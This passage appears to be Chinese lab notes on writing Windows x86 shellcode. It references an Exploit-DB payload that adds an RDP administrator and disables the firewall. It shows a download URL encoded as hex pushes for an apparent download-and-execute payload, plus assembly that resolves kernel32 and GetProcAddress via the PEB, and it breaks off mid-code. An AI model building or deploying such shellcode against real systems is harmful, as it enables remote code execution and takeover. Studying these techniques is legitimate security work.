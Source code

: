     0041706F FF D7                   call  edi                            //FataAppExitA(0, "@BrokenByte");
    ```
----

### 实验二

[Windows/x86 - MSVCRT System + Dynamic Null-free + Add RDP Admin + Disable Firewall + Enable RDP Shellcode (644 Bytes)](https://www.exploit-db.com/exploits/48355)

* 将自己的下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制

    ```c
    0x6578652e  // exe.
    0x30323032  // 0202
    0x51514350  // QQCP
    0x2f455845  // /EXE
    0x5f515143  // _QQC
    0x502f5151  // P/QQ
    0x43502f62  // CP/b
    0x65777171  // ewqq
    0x2f6d6f63  // /moc
    0x2e71712e  // .qq.
    0x6e776f64  // nwod
    0x2f2f3a73  // //:s
    0x70747468  // ptth
    ```

1. 找到kernel32的基地址

    ```bash
    xor ecx,ecx
    mov eax,[fs:ecx+0x30] ;Eax=PEB
    mov eax,[eax+0xc] ;eax=PEB.Ldr
    mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
    lodsd 
    xchg esi,eax
    lodsd
    mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

    ;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
    add ebx,ecx ;ebx=PE HEADER
    mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
    add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

    mov esi,[ebx+0x20] ;AddressOfNames
    add esi,ecx
    ```

2. 找到GetProcAddress

    ```bash
    or edx,edx

    count:
    inc edx
    lodsd
    add eax,ecx
    cmp dword [eax],'GetP'
    jnz count
    cmp dword [eax+4],'rocA'
    jnz count
    cmp dword [eax+8],'ddre'
    jnz count
    mov esi,[ebx+0x1c] ;AddressOfFunctions
    add esi,ecx
